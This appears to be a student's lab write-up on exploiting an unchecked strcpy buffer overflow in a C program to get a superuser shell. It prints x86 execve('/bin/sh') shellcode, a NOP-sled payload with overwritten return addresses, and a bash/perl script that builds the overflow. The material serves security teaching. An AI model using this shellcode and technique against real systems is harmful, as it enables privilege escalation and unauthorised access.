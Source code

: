 ## Hacking the Superuser to get access to the supersecret file

Given the C program *convert.c* find a way to execute Shell Code by overflowing the unprotected buffer.

### The convert program
The superuser's program, *convert*, is a simple C program that given a number of Bitcoins and a date it returns the amount of dollars they were valued at that time. It uses the *bitcoin.txt* to do so.

### Finding the weak spot

By reading the code we can see that the instruction
```c
    strcpy(date,argv[2]);
```
give us the opportunity to overflow the `date` buffer because there aren't any bound check to see if `argv[2]` is smaller or equal to 720, the length of the `date` char array.

### Trial and error
I filled date with a large random string and the program crashed giving me a SEGMENTATION fault and confirming the vulnerability of the executable.

Then I tried to prepare the proper input to get the program to execute my Shell code:

```sh
\xeb\x1f\x5e\x89\x76\x08\x31\xc0\x88\x46\x07\x89\x46\x0c\xb0\x0b\x89\xf3\x8d\x4e\x08\x8d\x56\x0c\xcd\x80\x31\xdb\x89\xd8\x40\xcd\x80\xe8\xdc\xff\xff\xff/bin/sh
```

and filling the empty space before the Shell code with "\x90", the Hex code of NOP instruction, to a total length of 720 chars.

Then I had to use **GDB** to find where in the stack is saved the `date` buffer so I could point back. By printing the address of the `arglist` I was able to figure it out. Then, all I had to do is to write that address several times (about 4) at the end of my input (after the 720 chars) so it would overwrite the saved eip, the return address. 

My string now looked something like this:
```
…\x90\x90\x90\x90\x90\x90\x90\x90\x90\xeb\x1f\x5e\x89\x76\x08\x31\xc0\x88\x46\x07\x89\x46\x0c\xb0\x0b\x89\xf3\x8d\x4e\x08\x8d\x56\x0c\xcd\x80\x31\xdb\x89\xd8\x40\xcd\x80\xe8\xdc\xff\xff\xff/bin/sh\x2a\xfe\xff\xbf\x2a\xfe\xff\xbf\x2a\xfe\xff\xbf\x2a\xfe\xff\xbf\x2a\xfe\xff\xbf
```
./convert 1 'myString'
That didn't work (and could never work that way). Except for the "\" character everything else was copied to the memory as their corresponding hex representation. For example, 'a' was replaced with 0x61 etc.

I had to find a way to write to the memory exactly the Bytes of code I had in my string. So I tried online hex to char converters to try to reverse the conversion that happened before. That didn’t work either because I couldn't copy-paste those characters that didn't appear correctly.


### Solving the puzzle
By using the exploit3.c code provided by Aleph One [here](http://insecure.org/stf/smashstack.html) with 800 as command line argument I was able to get access to the supersecret.txt quickly.

Although the problem was solved I tried another way to do it.

I wrote a Bash script to generate the right string that would overflow the date buffer and give me access to the *supersecret.txt*. I used **Perl** commands to convert my Shell code to characters (each byte a char). And again GDB to find the address of the `date` buffer and see what was written to the `saved eip` after the overflow to make sure I was writing an address somewhere in the NOP slide.

```
#!/bin/bash
arg=`perl -e 'printf"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\$ 

arg2=`perl -e 'printf"\x96\xf6\xff\xbf"'` #the address that will overwrite the return address. 

../superuser/convert 2 $arg$arg2

```

Now I had a shell running with the superuser's privileges.

### Useful links
Those are a collection of websites I used during my successful and un-successful trials.

* [tldp.org](http://www.tldp.org/LDP/Bash-Beginners-Guide/html/sect_03_02.html)
* [crypto.di.uoa.gr](https://crypto.di.uoa.gr/csec/Asphaleia_Ypologistikon_Systematon/Semeioseis_files/gdb-tut.pdf)  (in Greek)
* [insecure.org](http://insecure.org/stf/smashstack.html)
* [velocityreviews.com](http://www.velocityreviews.com/forums/t727636-print-hex-value-of-char.html)
* [linuxquestions.org](http://www.linuxquestions.org/questions/programming-9/%5Bbash%5D-ascii-to-hex-and-hex-to-ascii-488357/)
* [Microsoft.com](https://msdn.microsoft.com/en-us/library/9hxt0028.aspx)
* [csail.mit.edu](http://css.csail.mit.edu/6.858/2012/readings/return-to-libc.pdf)
* [stackoverflow.com](http://stackoverflow.com/questions/8534607/how-to-fix-buffer-overflow-return-address-failure)


